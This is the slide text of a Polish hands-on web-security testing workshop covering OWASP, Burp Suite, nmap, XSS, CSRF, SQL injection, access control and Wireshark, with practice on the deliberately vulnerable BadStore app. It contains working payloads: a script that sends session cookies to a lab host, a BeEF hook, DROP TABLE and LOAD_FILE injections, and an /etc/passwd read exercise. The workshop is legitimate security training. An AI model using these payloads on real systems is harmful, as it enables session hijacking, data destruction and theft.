








Praktyczne sposoby wykrywania podatności w aplikacjach webowych
Stacja IT - Warsztat #381
Informacje organizacyjne
O mnie
Jestem specjalistką ds. zapewnienia jakości i bezpieczeństwa oprogramowania z doświadczeniem w testach bezpieczeństwa aplikacji webowych oraz infrastruktury, testach wydajnościowych oraz testach technicznych. Pracuję jako Główny Specjalista w firmie Pentacomp Systemy Informatyczne, gdzie nie tylko wykonuję testy, ale także koordynuje pracę zespołu. Moim głownym zainteresowaniem są testy bezpieczeństwa aplikacji webowych.
Kwestie organizacyjne
- Warsztat trwa 4 godziny - od 10:00 do 14:00.
- Jeśli nikt nie ma nic przeciwko, zwracajmy się na "Ty".
- Co około 60 minut zrobimy 10-minutową przerwę.
- Pytania zadawajcie na bieżąco.
O was
- Czy masz jakieś doświadczenie w testach bezpieczeństwa?
- Czego oczekujesz od szkolenia?
Code of Ethics
Prezentowanych na warsztatach technik nie stosujemy na systemach bez zgody właściciela.
Korzystanie z prezentacji
- Kliknięcie ESC wyświetla widok aktualnego slajdu i pozostałych slajdów.
- Wybranie ikony w lewym dolnym rogu lub wciśnięcie klawisza m powoduje pojawienie się menu nawigacyjnego.
Agenda (I)
- Wprowadzenie i statystyki dotyczące podatności
- Organizacja OWASP – materiały i narzędzia OWASP
- OWASP Top 10
- Podstawowe informacje dotyczące aplikacji webowych
- Skanowanie portów
Agenda (II)
- Przegląd baz danych podatności
- Narzędzia typu lokalnego Proxy
- Podatność XSS i jej wykorzystanie (BeEF i własny skrypt)
- Ataki CSRF, przygotowanie przykładowej strony HTML wykonującej atak
Agenda (III)
- SQL Injection
- Podatności kategorii Broken Access Control
- Podsłuchanie komunikacji nieszyfrowanej z wykorzystaniem Wireshark
- Skanery umożliwiające automatyczne testy bezpieczeństwa
- Nagłówki bezpieczeństwa
Wprowadzenie
Jakie są najczęściej występujące podatności aplikacji webowych? O jakich podatnościach ostatnio słyszeliście?
Most Common Website Security VulnerabilitiesNajczęściej występujące podatności aplikacji webowych
Statystyki Acunetix - marzec 2019 - luty 2020
High Severity - Acunetix Web Application Vulnerability Report 2020
Statystyki Acunetix - marzec 2019 - luty 2020
Medium Severity - Acunetix Web Application Vulnerability Report 2020
Motywacja (I)
- Wykonanie podstawowych testów bezpieczeństwa nie jest trudne.
- Umiejętność wykrywania podstawowych podatności pomoże wykryć je na wczesnym etapie projektu.
- Im wcześniej błąd zostanie wykryty tym łatwiej i taniej jest go naprawić.
Motywacja (II)
- Testy bezpieczeństwa wymagają znajmości metod HTTP m. in. GET/POST oraz świadomości możliwości obejścia walidacji po stronie serwera.
Ile milionów haseł użytkowników Facebooka było dostępnych bez szyfrowania?
Hasła *** milionów użytkowników Facebooka były dostępne bez szyfrowania. Przez przypadek…Lokalne Proxy
Kilka pytań :)
- Kto korzystał z narzędzi deweloperskich przegladarki?
- Kto korzystał z narzędzi typu lokalnego Proxy?
- Kto widział różnice między metodami GET i POST?
Narzędzia typu lokalnego Proxy
- Proxy jest zainstalowane na komputerze testującego.
- Przeglądarka łączy się z Proxy, a następnie Proxy łączy się z żądaną stroną internetową.
- Dzięki takiemu połączeniu możliwe jest przechwytywanie oraz zmiana danych wysyłanych pomiędzy przeglądarką, a serwerem.

Burp Suite (I)
Bardzo popularne narzędzie wykorzystywane podczas testów bezpieczeństwa.
Burp Suite (II)
- Szczegółowa analiza i obróbka zapytań oraz odpowiedzi.
- Możliwość powtórzenia i modyfikowania przesłanych wcześniej żądań.
- Łatwe przenoszenie zapytań pomiędzy różnymi narzędziami.
- Skaner automatyczny (pasywny i aktywny).
Instalacja certyfikatu Burp - Firefox

Podczas importu certyfikatu należy zaznaczyć opcję Trust this CA to identify web sites
Instalacja certyfikatu Burp - IE
The Chrome browser picks up the certificate trust store from your host computer. By installing Burp's CA certificate in your computer’s built-in browser (e.g. Internet Explorer on Windows, or Safari on OS X), Chrome will automatically make use of the certificate.
Instalacja certyfikatu Burp
Burp Suite Professional
- Różnice między wersją Community i Professional.
- Kilka praktycznych wskazówek - logowanie NTLM (platform authentication) i certyfikat SSL po stronie klienta.
Automatyczna modyfikacja pola typu hidden w Burp Suite
Prezentacja OWASP ZAP
BadStore - aplikacja do ćwiczeń
Aplikacja dosyć stara, pierwsze wydanie 2004 rok ale nadal opisywana na blogach, posiada praktycznie wszystkie najważniejsze podatności.
OWASP
Organizacja OWASP
Open Web Application Security Project (OWASP) – organizacja non-profit, której celem jest poprawa stanu bezpieczeństwa aplikacji poprzez tworzenie artykułów, metodologii, dokumentacji, narzędzi i technologii o otwartym dostępie.Projekty OWASP
- OWASP Top 10
- OWASP Testing Guide
- OWASP Cheat Sheet Series
- OWASP Application Security Verification Standard (ASVS)
- OWASP Top 10 Proactive Controls
OWASP Cheat Sheet Series
OWASP Top 10 (2017)
- A1 Injection
- A2 Broken Authentication
- A3 Sensitive Data Exposure
- A4 XML External Entities (XXE)
- A5 Broken Access Control
- A6 Security Misconfiguration
- A7 Cross-Site Scripting (XSS)
- A8 Insecure Deserialization
- A9 Using Components with Known Vulnerabilities
- A10 Insufficient Logging & Monitoring
OWASP Top 10 (2017) - Linki
OWASP Top 10 Project | OWASP Top 10 2017 - PDF
OWASP Top Ten Proactive Controls
- C1: Define Security Requirements
- C2: Leverage Security Frameworks and Libraries
- C3: Secure Database Access
- C4: Encode and Escape Data
- C5: Validate All Inputs
- C6: Implement Digital Identity
- C7: Enforce Access Controls
- C8: Protect Data Everywhere
- C9: Implement Security Logging and Monitoring
- C10: Handle All Errors and Exceptions
Narzędzie OWASP ZAP
- Lokalne proxy przechwytujące
- Spider
- Aktywne skanowanie
- Fuzzer (przesyłaniu aplikacji niepoprawnych lub nieprzewidzianych danych)
- Liczne dodatki
Aplikacja webowa - podstawowe informacje
Definicja
Program komputerowy, który pracuje na serwerze i komunikuje się poprzez sieć komputerową z hostem użytkownika komputera z wykorzystaniem przeglądarki internetowej użytkownika, będącego w takim przypadku interaktywnym klientem aplikacji internetowej.
Model Klient - Serwer
- Klient wysyła żądanie (request) do serwera.
- Żądanie zawiera URL (Uniform Resource Locator).
- Serwer zwraca zasób, jeżeli jest dostępny (response).
- HTTP jest protokołem bezstanowym.
- Istnieją mechanizmy zapewniające emulację stanów - sesje, ciasteczka.
URL
- host - adres serwera, w postaci domenowej lub adresu IP,
- port - numer portu, na którym serwer odbiera połączenia TCP (80, 443, 8080),
- path - ścieżka dostępu do zasobu, jeżeli nieobecna podaje się "/".
Żądanie
- Wybór metody,
- Adres zasobu,
- Wersja protokołu HTTP,
- Dane.
Metoda GET
Polega na umieszczeniu par parametr=wartość w adresie strony, np. index.php?lang=pl&cat=2&sidebar=yes
Metoda POST
Metoda POST powinna być stosowana tam, gdzie dane odwołanie jest formą interakcji z użytkownikiem, niemożliwą do utrwalenia w formie adresu. Powinna być także stosowana tam, gdzie dana operacja może wywołać wiążące dla użytkownika skutki – np. zapisanie na listę dyskusyjną.
Odpowiedź
- Wersja protokołu HTTP,
- Status odpowiedzi - trzycyfrowy kod np. 200 OK, 301 Moved Permanently, 404 Not found,
- Dane.
Dane wrażliwe w GET (I)
- Przykład przekazywania danych wrażliwych z Amerykańskiego serwisu HealthCare.gov do serwisów śledzących aktywność użytkownika.
- Aplikacja przetwarzająca dane medyczne, w której konta mają miliony amerykanów - HealthCare.gov przekazywała dane o stanie zdrowia użytkowników do zewnętrznych systemów monitorujących ich aktywność.
Dane wrażliwe w GET (II)
- Dane były przekazywane poprzez nagłówek Referer (HTTP Referer to adres strony internetowej, z której użytkownik został przekierowany za pomocą odnośnika; przeglądarka internetowa przekazuje Referer serwerowi WWW w nagłówku żądania HTTP).
- Przekazywane dane zawierały m. in. kod pocztowy, poziom dochodów, informacje na temat palenia tytoniu i ciąży. Błąd został wykryty w styczniu 2015 roku. Więcej informacji...
Dane wrażliwe w GET (III)

Skanowanie portów
Porty (I)
- Porty 0-65535
- Możliwe stany portów:
- Closed (zamknięty) – nie w użyciu
- Open (otwarty) – nasłuchiwanie, przyjmowanie danych i przesyłanie do aplikacji
- Filtered (filtrowany) – nie jest możliwe określenie stanu portu (z zewnątrz), gdyż zdalny host nie odpowiada, być może ze względu na firewall, który filtruje ruch
Porty (II)
- Popularne aplikacje wykorzystują nr portów do 1023, tzw. dobrze znane porty
- Każda aplikacja korzystająca z sieci ma port
Well-known ports
Nmap (Network mapper)
- Skanowanie TCP (pełna procedura nawiązania połączenia) -sT
- Skanowanie półotwarte typu TCP SYN bez pełnego nawiązania połączenia z hostem -sS
- Skanowanie UDP -sU
Three-way Handshake
TCP SYN (Stealth) Scan
 Źródło: https://nmap.org/
Źródło: https://nmap.org/
UDP
Jest to protokół bezpołączeniowy, więc nie ma narzutu na nawiązywanie połączenia i śledzenie sesji (w przeciwieństwie do TCP). Nie ma też mechanizmów kontroli przepływu i retransmisji.
Nmap (Network mapper)
- Nmap wysyła pakiet na dany numer portu i oczekuje odpowiedzi
- -P0 (don’t ping)
- -sT (TcpConnect)
- -sS (SYN stealth Scan)
- -sP (Ping Scan)
- -sU (UDP Scans)
- -sV (Version Scan)
Polecenie skanowania TCP SYN
nmap -sS -oX raport.xml 192.168.6.29
Gnerowanie raportu HTML
xsltproc raport.xml -o raport.html
Graficzna wersja programu nmap - Zenmap
Skrypty NSE
Skrypty NSE (Nmap Scripting Engine) są to dodatkowe skrypty rozszerzające możliwości skanera Nmap np. wykrywanie podatności w SSL/TLS (np. Heartbleed), ataki brute force, czy nieaktualne wersje wykorzystywanych komponentów.
Skrypt NSE nmap_vulners (I)
- Jest to skrypt łączący Nmapa z bazą podatności vulners (https://vulners.com/landing) - informacje o przeszło 160 000 exploitów. Skrypt przeszukuje bazę podatności pod kątem występowania podatności dla zidentyfikowanych wersji oprogramowania (wymaga wykonania skanowania portów z opcją wykrywania wersji oprogramowania).
Skrypt NSE nmap_vulners (II)
- Skrypt należy pobrać z repozytorium GIT dostępnego pod adresem https://github.com/vulnersCom/nmap-vulners, a następnie umieścić w folderze w którym zlokalizowane są skrypty Nmap. W systemie Kali Linux folder zawierający skrypty NSE znajduje się w lokalizacji /usr/share/nmap/scripts.
Polecenie skanowania z wykorzystaniem nmap_vulners
nmap -sV --script vulners -oX raport.xml 192.168.6.29
Inne narzędzia
- Colasoft Packet Builder
- Hping2 / Hping3
- NetScanTools Pro
- Aplikacje mobilne - IP Scanner, zANTI, Fing
Bazy danych podatności
IBM X-Force Exchange, Exploit-db, CVEDetails, NullByte
Shodan
- Shodan pozwala na wyszukiwanie komputerów, rozmaitych urządzeń sieciowych, a nawet pracujących na nich specyficznych wersji oprogramowania.
- Technicznie działa jak skaner portów.
- Tworzy bazę otwartych portów i dostepnych usług (nagłowki odpowiedzi).
- https://www.shodan.io/home
Shodan
Co w ten sposób znajdziemy?
port:5901 authentication disabled
Ćwiczenie 1
- Skanowanie portów z wykorzystaniem Nmapa w trybie konsolowym lub GUI.
- Skanowanie z opcją wykrywania wersji oprogramowania dla portu aplikacyjnego (jak inaczej zdobyć informację o wersji oprogramowania?).
- Wyszukanie podatności dla tej wersji oprogramowania w bazie CVE-Details i NullByte.
Cross-Site Scripting - XSS
Cross-Site Scripting - XSS (I)
- Atak polegający na osadzeniu w treści atakowanej strony kodu, zazwyczaj JavaScript, który wyświetlany jest użytkownikowi.
- Atakujący może wykonać skrypt po stronie użytkownika aplikacji internetowej porywając między innymi jego sesje lub powodując przekierowanie na inną stronę.
Cross-Site Scripting - XSS (II)
- Reflected XSS (Nonpersistent XSS)
- Persistent XSS (Stored XSS)
- Oparte o DOM (DOM XSS)
Stored XSS
Reflected XSS
XSS Lokator
Testy można wykonać manualnie, przesyłając w każdym możliwym parametrze, którego wartość jest zwracana użytkownikowi tzw. lokator XSS w postaci znaków:
'';!--"<XSS>=&{()}
XSS Standardowy Payload
Testy można wykonać z wykorzystaniem standardowego payloadu powodującego wyświetlenie okna z alertem:
<script>alert(1)</script>
Przykład wykonania XSS
Ćwiczenie 2
- Znalezienie w aplikacji BadStore podatność XSS Reflected,
- Znalezienie w aplikacji BadStore podatność XSS Stored,
- Wykorzystać podatność XSS do przesłania identyfikatora sesji,
- Podmiana identyfikatora sesji i przejęcie sesji innego użytkownika.
Serwer HTTP z wykorzystaniem Pythona
Python 2.x
python -m SimpleHTTPServer 9000
python -m http.server 9000
Kradzież plików cookie
<script>location.href = 'http://192.168.1.14:9000/Stealer.php?cookie='+document.cookie;</script>
Wykorzystanie podatności Cross-Site Scripting (XSS)
Browser Exploitation Framework - BeEF (I)
Pakiet pozwala na wykorzystanie podatności XSS np. wyświetlenie okna dialogowego, uruchomienie dźwięku, pobranie plików cookie, czy zawartości schowka.Browser Exploitation Framework - BeEF (II)
<script src="http://192.168.1.14:3000/hook.js"></script>
Browser Exploitation Framework - BeEF (III)
Panel logowania: http://192.168.1.14:3000/ui/authentication Użytkownik testowy beef/beefUwaga! Możliwa jest tylko jedna aktywna sesja użytkownika beef.
Browser Exploitation Framework - BeEF (IV)

Browser Exploitation Framework - BeEF (V)
- Social Engineering
- Fake Notification
- Google Phishing
- Pretty Theft
- Browser
- Webcam HTML5
- Hooked Domain
- Get page HTML
- Get cookie
XSS - Metody ochrony
Enkodowanie
Filtrowanie danych przesyłanych przez użytkownika przed ich wyświetleniem w aplikacji - enkodowanie:HttpOnly i .NET Request Validation
- Zastosowanie parametru HttpOnly dla sesyjnych plików cookie.
- Stosowanie innych mechanizmów ochrony np. .net request validation
Przykładowy podatny kod
Fragment kodu odpowiadający za dodawanie danych (aplikacja .NET):
foreach (var item in currentRow)
{
cleanedRows.Add(StringHelper.CleanSpaces(item.Value));
}
Przykładowy poprawiony kod
Podatność można usunąć w następujący sposób:
foreach (var item in currentRow)
{
cleanedRows.Add(AntiXssEncoder.HtmlEncode(StringHelper.CleanSpaces(item.Value), false));
}
Ćwiczenie 3
- Opracowanie przykładowego scenariusza ataku z wykorzystaniem podatności XSS.
- Przygotowanie fałszywego okna logowania do innego systemu.
Podpowiedź: https://resources.infosecinstitute.com/deadly-consequences-xss/
Przykładowe podatności XSS z popularnych serwisów
Przykład #1 – Facebook (I)
- Podatność związana z funkcją dodawania plików pochodzących bezpośrednio z Dropboxa.
- Znaki specjalne w nazwie pliku nie były poprawnie filtrowane, dlatego dodanie pliku o nazwie: '"><img src=x onerror=alert(document.domain)>.txt skutkowało wykonaniem skryptu przez przeglądarkę i pojawieniem się okna z nazwą domeny.
Przykład #1 – Facebook (II)
- Do wykonania skryptu dochodziło bezpośrednio po dodaniu pliku, po wybraniu opcji Share.
- Jedyną trudnością było tutaj dodanie pliku o takiej nazwie do Dropboxa, nie było to możliwe bezpośrednio przez formularz uploadu ale nie stanowiło problemu jeśli utworzyło się taki plik lokalnie, a następnie zsynchronizowało katalog z Dropboxem.
Przykład #1 – Facebook (III)
Przykład #2 – Linkedin (I)
- Podatny na ataki XSS był formularz tworzenia nowej dyskusji, a dokładnie pole o nazwie More Details.
- Wprowadzenie w to pole wartości: <<a></a>body onload=alert('xss')> skutkowało trwałym zapisaniem w aplikacji payloadu XSS, a następnie jego wykonywaniem przez przeglądarki wszystkich użytkowników czytających daną dyskusję.
Przykład #2 – Linkedin (II)
Cross-Site Request Forgery - CSRF
Cross-Site Request Forgery - CSRF (I)
Atak polegający na zmuszeniu użytkownika do wykonania niepożądanej akcji w aplikacji internetowej, w której aktualnie jest zalogowany.Cross-Site Request Forgery - CSRF (II)
Z podatnością mamy do czynienia gdy w aplikacji konkretny link wykonuje konkretną akcję np.:
- Wykorzystywana jest metoda GET do wykonania istotnej akcji w systemie (parametry w linku).
- Link jest powtarzalny.
- Pliki cookie zostaną wysłane automatycznie.
Cross-Site Request Forgery - CSRF (III)
Sposób testowania:
- Wyszukanie funkcjonalności realizujących zdarzenia zmieniające pewne wartości w systemie np. realizujące przelew, zmieniające hasło.
- Sprawdzenie powtarzalności żądań/obecności tokenów, a w przypadku ich obecności poprawnego walidowania.
Cross-Site Request Forgery - CSRF (IV)
 Źródło
Źródło
Ćwiczenie 4
- Znalezienie w aplikacji BadStore podatność CSRF,
- Przygotowanie strony HTML pozwalającej na wykorzystanie podatności np. dla funkcjonalności zmiany hasła lub zakupu produktu w imieniu innego zalogowanego użytkownika.
Przykład formularza do ataku CSRF
<html>
<body>
<script>history.pushState('', '', '/')</script>
</body></html>
SQL Injection
SQL Injection - podstawowe informacje
- Aplikacja otrzymuje od atakującego odpowiednio spreparowane dane.
- Dane przekazywane są do zapytania do bazy danych bez odpowiedniej walidacji.
- Na poziomie bazy danych uruchamiane jest nieautoryzowane zapytanie.
SQL Injection - przykład
Przykład modyfikowania zapytań:
$q = mysql_query("SELECT * FROM uzytkownicy WHERE uzytkownik = '$uzytkownik'");
SELECT * FROM uzytkownicy WHERE uzytkownik = 'kowalski'
SELECT * FROM uzytkownicy WHERE uzytkownik = 'x' OR '1'='1'
SELECT * FROM uzytkownicy WHERE uzytkownik = 'x'; DROP TABLE uzytkownicy; SELECT '1'
SQL Injection - testowanie
Pierwszym etapem testu jest próba wywołania standardowego komunikatu błędu bazy danych SQL poprzez dodanie cudzysłowu pojedynczego (’) oraz średnika (;) do wartości testowanego parametru. Cudzysłów jest używany w SQL jako terminator łańcucha znaków. Średnik jest natomiast używany do zakończenia instrukcji SQL, tutaj również w przypadku braku filtrowania może dojść do zwrócenia błędu SQL.SQL Injection - komentarze
Przykładowe metody wprowadzania komentarzy w mysql:
- # komentarz do końca linii
- -- komentarz do końca linii
- /* komentarz w środku linii */
Funkcja LOAD_FILE()
SELECT * LOAD_FILE('/home/username/myfile.txt')
Ćwiczenie 5
- Znalezienie w aplikacji BadStore podatność SQL Injection.
- Wyświetlenie informacji o wersji bazy danych. Podpowiedź - VERSION()
- Wyświetlenie informacji o użytkownikach. Podpowiedź - tabela z użytkownikami to userdb, nazw kolumn można się domyśleć na podstawie formularzy logowania i zakładania konta.
Ćwiczenie 6
- Zalogowanie na konto administratora. Podpowiedź - hasła zapisane są w formie haszy. Wartość można znaleźć np. tutaj https://md5.gromweb.com/.
Ćwiczenie 7
- Wyświetlenie zawartości pliku /etc/passwd
Ankieta
https://bit.ly/2YqZcZoBroken Access Control
Broken Access Control (I)
Uzyskanie przez atakującego dostępu do danych, do których nie powinien mieć dostępu, obiektów należących do innego użytkownika, funkcjonalności i stron dla użytkowników o innym zakresie uprawnień.
Broken Access Control (II)
Przykładowo informacje na temat użytkownika wyświetlane są w odpowiedzi na żądanie:
GET /app/accountInfo?acct=myacct HTTP/1.1
Broken Access Control (III)
Inny przykład załadowanie plików za pomocą żądania:
GET /servlet.gupld?show=292258 HTTP/1.1
Broken Access Control - Testowanie (I)
- Aby sprawdzić potencjalną podatność, dla każdej strony dostępnej tylko dla użytkowników zalogowanych należy zweryfikować, czy dane na niej zawarte lub ich część może być uzyskana również bez zalogowania.
Broken Access Control - Testowanie (II)
- Dodatkowo jeśli w części aplikacji dostępnej po zalogowaniu występują dane lub funkcje dostępne jedynie dla części użytkowników należy zweryfikować czy w każdym przypadku poprawnie weryfikowane są uprawnienia użytkownika.
Broken Access Control - Testowanie (III)
- Standardowe przykłady podatności dotyczą błędów pozwalających na wyświetlenie danych innego użytkownika przez zmianę identyfikatora przekazywanego bezpośrednio do zapytania do bazy danych lub też błędów pozwalających na wykonanie pewnej akcji przez znajomość adresu URL lub struktury żądania.
Pluginu do Burp AuthMatrix (I)
W zakładce AuthMatrix należy dodać wszystkie role oraz użytkowników testowych koniecznych do przetestowania tych ról i zaznaczyć, który użytkownik ma przydzieloną daną rolę. Następnie należy dodać ważne cookiesy dla każdego użytkownika (opcja Send cookies to AuthMatrix) i żądania do przetestowania.Pluginu do Burp AuthMatrix (II)

Ćwiczenie 8
Testy podatności kategorii Broken Access Control. Testy należy wykonać z wykorzystaniem konta administratora i konta zwykłego użytkownika. Podpowiedź: ?action=adminportal i ?action=admin
Zakres rozszerzony - utworzenie konta administratora.
Wireshark
Wireshark
Umożliwia przechwytywanie i nagrywanie pakietów danych, a także ich dekodowanie. Dzięki dużej ilości dodatków potrafi rozpoznać i zdekodować wiele protokołów komunikacyjnych. W głównej mierze jest wykorzystywany przez administratorów sieci.
Filtrowanie i wyszukiwanie w Wireshark
Przydatne podczas korzystania z Wireshark:
- Filtry np. ip.addr == 192.168.1.14
- Podążaj -> Strumień TCP
- Wyszukiwanie - Szczegóły pakietu - String
Wireshark - GUI
Wireshark - Wyszukiwanie po zawartości pakietu
Ćwiczenie 9
Podsłuchanie komunikacji nieszyfrowanej. Wyświetlenie loginów i haseł wpisanych podczas logowania.
Skanery automatyczne
Skanery automatyczne
- Arachni
- Nikto
- Burp Suite
- OWASP ZAP
- OpenVas
- Skipfish
Arachni

OpenVas

Nagłowki bezpieczeństwa
Nagłowki bezpieczeństwa
Zaleca się dodanie standardowych nagłówków bezpieczeństwa:- X-Frame-Options,
- Content Security Policy,
- X-XSS-Protection,
- HTTP Strict Transport Security (HSTS).
X-Frame-Options
- Nagłówek zabezpiecza przed atakami typu Clickjacking.
- Najczęściej w miejscu wskazanym użytkownikowi do kliknięcia znajduje się niewidoczna ramka <iframe>, która przechwytuje kliknięcia, które wykonują pewną akcję w podatnej aplikacji.
- Przyklad podatności - Sekurak.
Content Security Policy
Content Security Policy pozwala twórcy aplikacji webowej na ścisłe zdefiniowanie, skąd mogą pochodzić dodatkowe zasoby, z których korzysta aplikacja www (pliki zewnętrzne JavaScript czy CSS, obrazki i inne elementy multimedialne).Ograniczenie to ma zapobiegać atakom XSS, które dołączają do źródeł strony skrypty doczytywane z innych lokalizacji sieciowych.
Sekurak - Czym jest Content Security Policy?
X-XSS-Protection (I)
- Nagłówek podaje w jaki sposób ma być wykorzystany wbudowany filtr przeciwdziałający atakom Reflected XSS.
